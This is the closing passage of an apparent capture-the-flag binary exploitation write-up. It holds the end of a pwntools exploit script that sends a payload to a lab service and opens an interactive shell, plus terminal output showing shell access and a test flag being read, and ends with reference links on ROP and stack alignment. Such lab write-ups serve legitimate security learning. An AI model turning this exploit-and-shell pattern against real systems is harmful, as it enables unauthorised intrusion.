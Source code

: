 ```python
    ]
    
    payload=b"".join(payload)

    # setup connections
    p=remote("192.168.0.22",1024)
    print(p.recvline())
    p.sendline(payload)
    p.interactive()

if __name__ == "__main__":
    main()

```

```bash
┌[root☮2d6562dcd579]-(/pwd)
└> python3 asd.py
[+] Opening connection to 192.168.0.22 on port 1024: Done
b'Enter password to get system details:
'
[*] Switching to interactive mode

Access Granted

top - 18:54:12 up  3:20,  0 users,  load average: 0.01, 0.06, 0.08
Tasks:   6 total,   1 running,   5 sleeping,   0 stopped,   0 zombie
%Cpu(s):  0.0 us,  1.7 sy,  0.0 ni, 98.3 id,  0.0 wa,  0.0 hi,  0.0 si,  0.0 st
MiB Mem :   1987.5 total,    924.1 free,    356.9 used,    706.5 buff/cache
MiB Swap:   1024.0 total,   1024.0 free,      0.0 used.   1475.9 avail Mem

  PID USER      PR  NI    VIRT    RES    SHR S  %CPU  %MEM     TIME+ COMMAND
    1 ctf       20   0    2600    840    776 S   0.0   0.0   0:00.04 sh
    7 ctf       20   0    2352    812    748 S   0.0   0.0   0:00.00 ynetd
   70 ctf       20   0    2600    780    708 S   0.0   0.0   0:00.00 sh
   71 ctf       20   0    2348   1436   1356 S   0.0   0.1   0:00.00 system_he+
   72 ctf       20   0    2600    792    724 S   0.0   0.0   0:00.00 sh
   73 ctf       20   0    5912   2904   2612 R   0.0   0.1   0:00.00 top
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ ls
flag
system_health_check
ynetd
$ cat flag
LO{THIS_IS_TEST_FLAG}$
```


## Reference Links



- https://www.youtube.com/watch?v=OqTpc_ljPYk
- https://ctf101.org/binary-exploitation/relocation-read-only/
- https://www.felixcloutier.com/x86/ret
- http://blog.binpang.me/2019/07/12/stack-alignment/
- https://pwndumb.github.io/posts/Docker-101-MacOS/